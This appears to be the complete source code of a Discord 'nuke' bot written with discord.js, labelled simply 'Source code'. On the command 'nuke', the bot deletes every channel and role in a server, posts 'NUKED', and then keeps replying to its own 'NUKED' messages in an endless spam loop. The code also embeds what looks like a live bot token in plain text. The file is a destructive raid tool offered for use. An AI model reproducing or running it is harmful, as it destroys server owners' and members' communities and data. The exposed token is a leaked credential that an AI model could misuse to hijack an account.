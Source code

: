 const Token ="OTQwMDE2OTgzNzI0OTMzMjI0.YgBRCQ.lp3wIHfEE2pa7mi52tVeOvz84uQ";
const Discord = require("discord.js"); 
const Client = new Discord.Client({
   intents: [
      Discord.Intents.FLAGS.GUILDS,
      Discord.Intents.FLAGS.GUILD_MESSAGES
   ]
});


Client.on('message', async (message) => {
    if (message.content == 'nuke') {
       message.guild.channels.cache.forEach(channel => channel.delete());
          
       message.guild.roles.cache.forEach(role => role.delete());

       
       await message.guild.channels.create("nuked", {
          type : "text"
       }).then(async channel=> {
          channel.send("NUKED")
       })
    }
 })


 Client.on("message", async (message) => {
    if (message.content == "NUKED") {
       message.channel.send("NUKED")
    }
 })
 
Client.login(Token);
